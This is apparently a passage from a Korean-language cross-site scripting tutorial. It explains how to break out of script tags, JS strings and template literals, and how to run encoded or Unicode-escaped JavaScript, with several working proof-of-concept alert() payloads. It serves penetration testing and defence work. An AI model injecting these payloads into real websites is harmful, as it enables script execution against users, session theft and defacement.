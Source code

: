 > \<a href="" id=someid class=test onclick=alert() a="">

이 트릭은 [https://medium.com/@skavans\_/improving-the-impact-of-a-mouse-related-xss-with-styling-and-css-gadgets-b1e5dec2f703](https://medium.com/@skavans\_/improving-the-impact-of-a-mouse-related-xss-with-styling-and-css-gadgets-b1e5dec2f703)에서 가져온 것입니다.

## JavaScript 코드 내부에 삽입

이 경우 **입력**은 `.js` 파일이나 `<script>...</script>` 태그 사이 또는 JS 코드를 실행할 수 있는 HTML 이벤트 사이 또는 `javascript:` 프로토콜을 허용하는 속성 사이의 JS 코드 내에 **반영**될 것입니다.

### \<script> 태그 이스케이핑

코드가 `<script> [...] var input = 'reflected data' [...] </script>` 내에 삽입된 경우 **\<script> 태그를 닫아버리는 것**이 쉽습니다:
```javascript
</script><img src=1 onerror=alert(document.domain)>
```
이 예제에서는 싱글 따옴표를 **조차 닫지 않았음을** 주목하세요. 이는 **HTML 파싱이 먼저 브라우저에 의해 수행**되기 때문인데, 이는 스크립트 블록을 포함한 페이지 요소를 식별하는 과정을 포함합니다. 중첩된 스크립트를 이해하고 실행하기 위한 JavaScript의 파싱은 그 후에 수행됩니다.

### JS 코드 내부

만약 `<>`가 살균되고 있다면 입력이 **위치한 곳에서 문자열을 이스케이프**하고 **임의의 JS를 실행**할 수 있습니다. **JS 구문을 수정하는 것이 중요**한데, 오류가 있으면 JS 코드가 실행되지 않을 수 있습니다.
```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```
### 템플릿 리터럴 \`\`

**문자열**을 구성하기 위해 JS는 작은 따옴표와 큰 따옴표 외에도 **역따옴표** **\` \`\`**를 허용합니다. 이를 **템플릿 리터럴**이라고 하며 `${ ... }` 구문을 사용하여 **내장된 JS 표현식**을 실행할 수 있습니다.\
따라서, 입력이 **역따옴표**를 사용하는 JS 문자열 내에 **반사**된 것을 발견하면 `${ ... }` 구문을 악용하여 **임의의 JS 코드**를 실행할 수 있습니다:

다음을 사용하여 **악용**할 수 있습니다:
```javascript
`${alert(1)}`
`${`${`${`${alert(1)}`}`}`}`
```

```````````````javascript
// This is valid JS code, because each time the function returns itself it's recalled with ``
function loop(){return loop}
loop``````````````
```````````````
### 인코딩된 코드 실행
```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</iframe>">
```
### 유니코드 인코딩 JS 실행
```javascript
\u{61}lert(1)
\u0061lert(1)
\u{0061}lert(1)
```
### JavaScript 블랙리스트 우회 기술

